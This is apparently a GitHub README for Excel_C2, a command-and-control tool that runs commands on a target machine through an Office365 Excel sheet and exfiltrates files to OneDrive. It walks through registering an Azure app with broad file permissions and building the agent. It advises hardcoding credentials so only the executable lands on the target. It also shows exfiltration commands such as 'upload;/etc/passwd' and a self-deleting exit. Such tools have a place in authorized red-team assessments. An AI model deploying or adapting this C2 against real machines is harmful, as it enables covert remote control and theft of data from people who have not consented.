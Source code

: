 # Excel_C2

Excel_C2 (Excel Command and Control) is a Command and Control application that allows an attacker to execute commands on the target machine using an Office365 Excel sheet and exfiltrates data OneDrive.

## Recignition

This area is intigrated a project I've been working on with a good friend of mine.  The original can be found here:

[Grantok/Excel-C2](<https://github.com/Grantok/Excel-C2> )

## Requirements

- Azure AD login with permissions to:
  - Register Application
    - Apply Delegated and Application permissions for Files.ReadWrite.All
  - Grant admin consent confirmation
- O365 Subscription

## Set up

1. **Get User ID**
    1. Log into the [Azure Active Directory Admin center](https://aad.portal.azure.com/) with a Global Administrator Account.
    1. Select **Users** on the left navigation panel
    1. Select your user and note the **Object ID**.  This will be used for the `userId` (or `USER_ID` environment variable)
      ![User Id](https://raw.githubusercontent.com/TechRinger/media/main/images/user-id.png)

1. **Register an Azure Portal App**
    1. Expand **Azure Active Directory** on the left navigation panel
    1. Expand **Applications**
    1. Select **App registrations** \
      ![App registrations](https://raw.githubusercontent.com/TechRinger/media/main/images/aad-portal-app-registrations.png)
    1. Click the  **New Registration** button \
      ![New registration](https://raw.githubusercontent.com/TechRinger/media/main/images/new-registration.png)
    1. Enter a name for your new app, select "Accounts in this organizational directory only (MSFT only - Single Tenant)", and click the **Register** button \
      ![New application](https://raw.githubusercontent.com/TechRinger/media/main/images/new-application.png)
    1. On the application page, note the **Application (client) ID** and **Directory (tenant) ID** values.  They will be used for `clientId` and `tenantId` respectively (or `CLIENT_ID` and `TENANT_ID` environment variables) \
      ![App IDs](https://raw.githubusercontent.com/TechRinger/media/main/images/app-ids.png)
    1. Click **API permissions** \
      ![API permissions](https://raw.githubusercontent.com/TechRinger/media/main/images/api-perms.png)
    1. Click the **Add a permission** button \
      ![Add permission](https://raw.githubusercontent.com/TechRinger/media/main/images/add-perm-button.png)
    1. Click the **Microsoft Graph** button \
      ![Add MS Graph](https://raw.githubusercontent.com/TechRinger/media/main/images/add-graph-perm.png)
    1. Click the **Application permissions** button \
      ![Application Permissions](https://raw.githubusercontent.com/TechRinger/media/main/images/app-perm.png)
    1. Type "files" to filter the permissions.  Then expand the **Files** option and check the box next to "Files.ReadWriteAll" and click the **Add permissions** button \
      ![File Permissions](https://raw.githubusercontent.com/TechRinger/media/main/images/files-perm.png)
    1. Add the same "Files.ReadWrite.All" under the **Delegated permissions** area
    1. Back on the "API permissions" page, click the **Grant admin consent for MSFT** button and **Yes** in the banner \
      ![Grant Consent](https://raw.githubusercontent.com/TechRinger/media/main/images/grant-consent.png)
    1. In the naviation menu, select **Certificates & secrets** and click the **New client secret** button \
      ![New Secret](https://raw.githubusercontent.com/TechRinger/media/main/images/new-secret.png)
    1. Enter a description and click the **Add** button \
      ![Add Secret](https://raw.githubusercontent.com/TechRinger/media/main/images/add-secret.png)
    1. Copy the "Value" field of your newly created secret.  This will not be displayed again once you leave this page.  This will be used for the `clientSecret` field (or `CLIENT_SECRET` environment variable)\
      ![Copy Secret](https://raw.githubusercontent.com/TechRinger/media/main/images/copy-secret.png)

1. **Create the Excel Spreadsheet**

    1. Login with the same account to [OneDrive](https://onedrive.live.com)
    1. Click on the arrow next to the **New** button and select **Excel workbook**.  The file name will be used for the `fileName` field (or `FILE_NAME` environment variable)\
      ![New Workbook](https://raw.githubusercontent.com/TechRinger/media/main/images/new-excel.png)

1. **Setup Environment**

    There are 3 different ways to configure the credentials for the app.
    1. You can hardcode the values in the root.go file before building
    1. You can set environment variables that will be read during the execution of the application
    1. You can pass the values as flags to the application when starting

    ***Below are the flags for the different methods:***

    | Credential | root.go Variable | Environment Variable | Comamnd Flag |
    | --- | --- | --- | --- |
    | Tenant ID from Azure App #9 | tenantId | TENANT_ID | tenant |
    | Client ID from Azure App #9 | clientId | CLIENT_ID | client |
    | Client Secret from Azure App #19 | clientSecret | CLIENT_SECRET | secret |
    | User Id from Azure App #3 | userId | USER_ID | user |
    | Filename from Excel Spreadsheet #2 | fileName | FILE_NAME | file |

1. **Build executable**

    ```bash
    git clone https://github.com/grantok/Excel-C2
    cd Excel-C2
    go build excel-c2.go
    ```

1. **Start the C2**

    ```none
    excel-c2 --tenant <tenantId> --client <clientId> --secret <clientSecret> --file <fileId> --user <userId> --verbos <true|false>
    ```

   > Note: you can also hardcode the parameters in the code, so you will upload only the executable on the target machine (look at comments in root.go)

### Features

- Command execution using Office365 Excel Sheet as a console
- Download files on the target using Microsofot OneDrive
- Upload files (data exfiltration) using Microsoft OneDrive
- Exit

#### Command execution

The program will perform a request to the spreadsheet every 30 sec (by default) to check for new commands.
Enter the command in column **A** and the output will be added to column **B**

#### Upload File

The "upload" command will upload a file from the target machine to OneDrive.  The syntax is:

 ```none
upload;<remote path>
 ```

Example:

 ```none
upload;/etc/passwd
 ```

> NOTE: DO **NOT** add spaces around semi-colons.

#### Download File

The "download" command will download a file from OneDrive to the target machine.  The syntax is:

 ```none
download;<OneDrive file name>;<remote path>
 ```

Example:

 ```none
download;down.txt;/home/user/downloaded.txt
 ```

> NOTE: DO **NOT** add spaces around semi-colons.

#### Exit

By sending the command *exit*, the program will delete itself from the target and kill its process

> NOTE: From *os* documentation:
> *If a symlink was used to start the process, depending on the operating system, the result might be the symlink or the path it pointed to*. In this case the symlink is deleted.

### WorkFlow

![Workflow](https://raw.githubusercontent.com/TechRinger/media/main/images/workflow.png)

### Demo

![Demo](https://raw.githubusercontent.com/TechRinger/media/main/images/demo.gif)

### Disclaimer

The owner of this project is not responsible for any illegal usage of this program.

This is an open source project meant to be used with authorization to assess the security posture and for research purposes.

The final user is solely responsible for their actions and decisions. The use of this project is at your own risk. The owner of this project does not accept any liability for any loss or damage caused by the use of this project.

### Support the project

Pull request
